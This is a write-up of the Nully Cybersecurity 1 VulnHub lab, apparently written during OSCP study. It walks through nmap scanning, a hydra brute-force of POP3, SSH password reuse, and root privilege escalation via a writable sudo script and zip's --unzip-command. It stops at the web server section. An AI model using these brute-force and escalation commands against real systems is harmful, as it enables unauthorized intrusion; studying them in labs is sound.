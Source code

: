 # Nully Cybersecurity 1: Writeup

Hello, this is my first writeup, while studying for the OSCP certification. This VM (found [here](https://www.vulnhub.com/entry/nully-cybersecurity-1,549/)) was the most enjoyable so far, so I decided to create a writeup on it. It is a nice easy-intermediate level machine, that taught me a lot about pivoting and the metasploit framework.

> I'm not using Kali, or any penTest specific distro. I'm just using my Ubuntu machine. Feel free to use whatever distro you feel comfortable with.


So after you fire up the vm, give it a few minutes to start up all services. Afterwards lets start by scanning the network to identify its IP.
```
netdiscover
```
came up  with the VMs IP : 192.168.1.6

next we're going to perform a basic nmap scan on it, to see if any exposed services.
```
nmap -sV 192.168.1.6
```
wields some interesting  results:
```
Nmap scan report for nully-cybersecurity-ctf (192.168.1.6)
Host is up (0.00083s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
110/tcp  open  pop3        Dovecot pop3d
2222/tcp open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8000/tcp open  nagios-nsca Nagios NSCA
9000/tcp open  cslistener?
```

So aparently there's a web server worth checking out first with our browser at: `http//192.168.1.6`

There, the creator of this VM informs us that there are 3 hosts in the internal network of the VM:
- a mail server
- a web server (other than the one serving the instructions page)
- and a database server

the creator of the VM is also hinting that we should start from the mail server, which makes sence as we can see that it's exposed to the external network from our nmap results. He also gives as a mail account's credentials to check the inbox.

lets do that first.

## Rooting the mailServer
I will use netcat to connect to the pop3 port of the mail server and some basic pop3 commands:
```
teo@ThinkPad:~$ nc 192.168.1.6 110
+OK Dovecot (Ubuntu) ready.
user pentester
+OK
pass qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
+OK Logged in.
list
+OK 1 messages:
1 657
.
retr 1
+OK 657 octets
Return-Path: <root@MailServer>
X-Original-To: pentester@localhost
Delivered-To: pentester@localhost
Received: by MailServer (Postfix, from userid 0)
	id 20AE4A4C29; Tue, 25 Aug 2020 17:04:49 +0300 (+03)
Subject: About server
To: <pentester@localhost>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200825140450.20AE4A4C29@MailServer>
Date: Tue, 25 Aug 2020 17:04:49 +0300 (+03)
From: root <root@MailServer>

Hello,
I'm Bob Smith, the Nully Cybersecurity mail server administrator.
The boss has already informed me about you and that you need help accessing the server.
Sorry, I forgot my password, but I remember the password was simple.
.
^C
teo@ThinkPad:~$ 
```
There's some very important pieces of info in that email:
- mailServers' admin is named Bob
- his password is simple

So we are going to try to bruteforce bob's password. 
We're going to use hydra, so I prepared two lists for that purpose.

One with possible simple usernames for bob and one for simple passwords

heres my bob_users.txt:
```
bob
bobby
Bob
BOB
Bobby
BOBBY
```
Noting fancy here, just simple variations of bob's name.

for the password list, i'm going to do as the VM's creator suggests:
```
cat rockyou.txt | grep bobby > bob_pass.txt
```
I'm going to use hydra to bruteforce the pop3 port. You can use whatever cracking tool you feel comfortable with.
```
hydra -L bob_users.txt -P bob_pass.txt 192.168.1.6 pop3
```
After a while we actually manage to crack bob's password for pop3. Its `bobby1985`. We're going to try it iver ssh, hoping that Bob, will be using the same password. And he actually is!!! Bob's a noob admin!

so now we can login to the mailServer as bob with:
```
ssh bob@192.168.1.6 -p2222
```
Once we get access, we need to investigate if there's a way to root the mailServer.

Were going to start with the obvious `sudo -l` which has some quite interesting results:
```
bob@MailServer:~$ sudo -l
Matching Defaults entries for bob on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on MailServer:
    (my2user) NOPASSWD: /bin/bash /opt/scripts/check.sh
bob@MailServer:~$ ls -lart /opt/scripts/check.sh 
-rwxr-xr-x 1 bob bob 1259 Sep 15 09:50 /opt/scripts/check.sh
```
So bob can execute the /opt/scripts/check.sh script as the my2user without password and the script is also writeable by bob..

Lets go edit the script:
Just adding a `/bin/bash` at the end will do for spwaning a shell.

Now lets run the script as th my2user:
```
sudo -u my2user /bin/bash /opt/scripts/check.sh
```
the script runs... and we're now logged in as my2user!!

lets do `sudo -l` again for the my2user:
```
my2user@MailServer:~$ sudo -l
Matching Defaults entries for my2user on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User my2user may run the following commands on MailServer:
    (root) NOPASSWD: /usr/bin/zip
```
Lucky for us the my2user can execute `/usr/bin/zip` as root without a password. Doing a little googling, I found out that zip can execute arbitrary commands like this:
```
my2user@MailServer:~$ touch file
my2user@MailServer:~$ sudo zip 1.zip file -T --unzip-command="sh -c /bin/bash"
  adding: file (stored 0%)
root@MailServer:/home/my2user# 
```

and BOOM!! The mailServer is rooted!

Reading /root/1_flag.txt inform us that the webserver should be next.

## Rooting the webServer